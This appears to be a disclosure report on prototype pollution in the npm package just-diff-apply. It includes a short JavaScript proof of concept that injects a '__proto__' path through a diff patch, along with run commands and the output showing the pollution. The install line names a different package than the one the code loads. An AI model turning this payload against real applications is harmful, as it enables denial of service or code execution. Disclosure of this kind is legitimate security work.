 # Description

`just-diff-apply` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var {diffApply} = require("just-diff-apply")
var obj = {}
const patch = [{op: "add", path: ["__proto__","polluted"], value: "Yes! Its Polluted"}];
console.log("Before : " + obj.polluted);
diffApply(obj, patch);
var obj1={}
console.log("After : " + obj1.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i deep-diff # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
